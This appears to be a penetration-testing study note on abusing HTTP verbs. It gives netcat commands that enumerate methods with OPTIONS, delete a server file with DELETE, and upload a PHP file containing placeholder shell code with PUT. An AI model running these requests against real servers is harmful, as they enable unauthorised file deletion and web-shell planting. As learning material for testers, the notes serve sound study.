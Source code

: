 
### General Notes

> Exploiting [[HTTP]] verbs.
> Check the resulting [[HTTP]] response to see effect of exploitation.
---

### Enumerate available verbs

> Using `netcat`, connect and then send a request using the `options` verb.
```
nc example.site 80
OPTIONS / HTTP/1.1
```
> Similar to the usage of `netcat` in [[Web Application Fingerprinting]].

---

### Exploit `DELETE`

> Using `netcat`, connect and then send a request using the `delete` verb, with the path to the file specified.
```
nc example.site 80
DELETE /path/to/resource.php HTTP/1.1
```
> Similar to the usage of `netcat` in [[Web Application Fingerprinting]].

---

### Exploit `PUT`

> Must know the size of the file to be uploaded. Use the `wc -m <filename>` to get size in bytes of the file.

> Using `netcat`, connect and then send a request using the `PUT` verb, with the path to the file specified.
```
nc example.site 80
PUT /payload.php HTTP/1.1
Content-type: text/html
Content-length: <size-in-bytes>

<?php shell-code ?>
```

---


